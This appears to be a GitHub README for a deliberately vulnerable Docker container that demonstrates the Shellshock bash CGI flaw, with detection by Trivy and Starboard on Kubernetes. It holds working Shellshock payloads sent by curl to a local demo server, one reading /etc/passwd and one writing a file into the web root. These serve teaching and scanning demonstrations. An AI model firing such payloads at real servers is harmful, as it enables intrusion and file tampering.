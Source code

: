 docker-shellshockable
=====================

Docker container with Apache 2 / CGI shellshock vulnerability. This builds on an original version by [Thibault Normand](https://github.com/Zenithar)

### Build

```sh
docker build -t lizrice/shellshockable:0.1.0 .
```

### Find the vulnerability with Trivy

```sh
trivy image lizrice/shellshockable:0.1.0
```

Note: this wouldn't find the vulnerability if you build the vulnerable version of bash from source

### Install on Kubernetes with Helm

```sh
helm install shell-chart shellshockable/ --values shellshockable/values.yaml
```

### Port-forwarding

```sh
kubectl port-forward $(kubectl get pods -l app.kubernetes.io/name=shellshockable -o name) 8081:80
```

### Read files from the host

```sh
curl -A "() { :; }; echo \"Content-type: text/plain\"; echo; /bin/cat /etc/passwd" localhost:8081/cgi-bin/shockme.cgi
```

### Create a new page

```sh
curl localhost:8081/liz.html
# doesn't exist yet

curl -A "() { :; }; echo hello > /var/www/html/liz.html" localhost:8081/cgi-bin/shockme.cgi

# Find new file
curl localhost:8081/liz.html
```
### Misc

Get into the host:

```sh
kubectl exec -it  $(kubectl get pods -l app.kubernetes.io/name=shellshockable -o name) bash
```

Test that a version of bash is exploitable:

```sh
env x='() { :; }; echo vulnerable' bash -c "echo test"
```

## Starboard

Install [starboard](https://github.com/aquasecurity/starboard) - for example `kubectl krew install starboard`
and  `kubectl starboard init` to create the CRDs.

```
$ `kubectl starboard find vulnerabilities deployment/shell-chart-shellshockable
$ `kubectl starboard get vulnerabilities deployment/shell-chart-shellshockable
```

Run `octant` to view them there.



